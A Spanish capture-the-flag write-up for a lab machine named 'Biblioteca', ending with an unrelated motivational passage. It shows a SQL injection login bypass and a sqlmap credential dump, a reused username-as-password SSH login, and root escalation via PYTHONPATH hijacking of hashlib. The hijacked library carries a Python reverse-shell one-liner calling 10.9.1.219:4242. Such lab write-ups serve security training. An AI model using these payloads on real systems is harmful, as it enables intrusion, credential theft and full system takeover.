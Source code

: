 # Biblioteca

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado dos puertos abiertos en el sistema: el puerto `22` para `SSH`, el `8000` para `HTTP`.

<figure><img src="../.gitbook/assets/Biblioteca/nmap-init.png" alt=""><figcaption></figcaption></figure>

Enumeramos los directorios que tenemos disponibles en el puerto `HTTP`;

```
dirsearch -u http:<ip>:8000 
```

<figure><img src="../.gitbook/assets/Biblioteca/dirsearch.png" alt=""><figcaption></figcaption></figure>

Solo encontramos dos directorios, así que accedemos al servicio web y creamos un nuevo usuario y contraseña para explorar el contenido de la página. Sin embargo, no encontramos nada más que un mensaje que muestra nuestro nombre de usuario y nada más.

<figure><img src="../.gitbook/assets/Biblioteca/pagina-init.png" alt=""><figcaption></figcaption></figure>

Aquí consideramos la posibilidad de que se tratara de un ataque de `XSS`, así que intentamos inyectar varios payloads, pero no tuvimos éxito, ya que el sistema nos devolvía el siguiente mensaje.

```
Username must contain only characters and numbers !
```

<figure><img src="../.gitbook/assets/Biblioteca/xss-error.png" alt=""><figcaption></figcaption></figure>

Se evidenció que podíamos utilizar `sqlmap` para realizar una inyección y extraer las credenciales. Al crear el usuario `hack`, pudimos acceder con la contraseña `'OR 1=1 --`. Guardamos el ítem de inicio de sesión de `Burp Suite` como `sql.req` haciendo clic derecho y seleccionando guardar ítem. Con el siguiente comando, podremos recuperar usuarios y contraseñas.


<figure><img src="../.gitbook/assets/Biblioteca/burp-save.png" alt=""><figcaption></figcaption></figure>

## SQLMAP

```
sqlmap -r sql.req --dbs --dump
```

* `--dbs` Enumera bases de datos DBMS.
* `--dump` Volcado de entradas de tabla de base de datos DBMS
* `-r REQUESTFILE` Carga un request de HTTP como archivo    

<figure><img src="../.gitbook/assets/Biblioteca/sql2.png" alt=""><figcaption></figcaption></figure>

Como podemos ver, se nos presentan dos usuarios: el que creamos anteriormente y otro que pertenece al sistema. Aunque podemos acceder con este último, no encontramos nada interesante en la página. Sin embargo, también tenemos la opción de ingresar al servidor a través de `SSH` utilizando el usuario que se nos proporciona.

<figure><img src="../.gitbook/assets/Biblioteca/smokey.png" alt=""><figcaption></figcaption></figure>

# SSH /smokey

Al realizar la enumeración con `linpea.sh` y `pspy64` para este usuario, no logramos un escalado de privilegios sencillo; solo encontramos escalados que no conducían a ninguna parte del sistema o en si no funcionaba. Sin embargo, descubrimos una de las técnicas más simples y fundamentales que podemos aplicar en un laboratorio: utilizar el mismo nombre de usuario como contraseña. Así, pudimos acceder al otro usuario: `hazel:hazel`.

<figure><img src="../.gitbook/assets/Biblioteca/hazel.png" alt=""><figcaption></figcaption></figure>

# SSH /hazel

Realizamos la enumeración y observamos que, al ejecutar `sudo -l`, tenemos permisos de root para ejecutar el archivo:

```
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py

```

Dentro del archivo `hasher.py`, podemos encontrar el siguiente código.

```
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()


```

Observamos que importa la biblioteca `hashlib`. Podemos investigar esta biblioteca y modificarla para que nos proporcione una `reverse shell`.

```
find / -name hashlib.py 2>dev/null
```

```
/snap/core20/1361/usr/lib/python3.8/hashlib.py
/snap/core20/1270/usr/lib/python3.8/hashlib.py
/snap/core18/2284/usr/lib/python3.6/hashlib.py
/snap/core18/2855/usr/lib/python3.6/hashlib.py
/usr/lib/python3/dist-packages/landscape/lib/hashlib.py
/usr/lib/python3/dist-packages/nacl/hashlib.py
/usr/lib/python3.8/hashlib.py
```
## hashlib.py

Copiamos la biblioteca `/usr/lib/python3.8/hashlib.py` al directorio `/tmp` para modificarla de manera segura y poder enviarla utilizando `PYTHONPATH`.


```
cp /usr/lib/python3.8/hashlib.py /tmp/hashlib.py
```

```
chmod +x hashlib.py 
nano hashlib.py
```

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.219",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

```
sudo -u root PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

<figure><img src="../.gitbook/assets/Biblioteca/pythonpath.png" alt=""><figcaption></figcaption></figure>

# SSH /root

De esta manera, logramos obtener acceso como `root` en la máquina del laboratorio.

<figure><img src="../.gitbook/assets/Biblioteca/root.png" alt=""><figcaption></figcaption></figure>

> Muchas personas pasan toda su vida preocupándose por otros, tratando de agradar, buscando aprobación y gastando energía con personas que solo consumen pero nunca retribuyen. ¿Ya te has puesto a pensar en el costo de todo, en cuánto tiempo te quitan, te retrasan y te desgastan? La verdad es que la mayoría de esas personas no les importa su futuro, no se preocupan si estás bien o si has logrado las cosas que quieres, o si estás viviendo la vida que sueñas. 
> 
> Siguen con la vida cuidando sus propios intereses, mientras que tú te quedas estancado allí, en este intento de agradar a todo el mundo. Solo sigues gastando tu tiempo con alguien que realmente no se preocupa por ti y terminarás sin energía para cuidar lo que realmente importa: tu evolución, tus sueños y tu paz. 
> 
> Necesitas aprender a poner límites y priorizar lo que realmente marca la diferencia en tu vida. Entonces, deja de desgastarte con alguien que no se lo merece, concéntrate en tu viaje y tu crecimiento. Quien realmente se preocupa estará a tu lado sin que tengas que sacrificarte por ello.
> 
> <figure><img src="../.gitbook/assets/Biblioteca/touhou.png" alt=""><figcaption></figcaption></figure>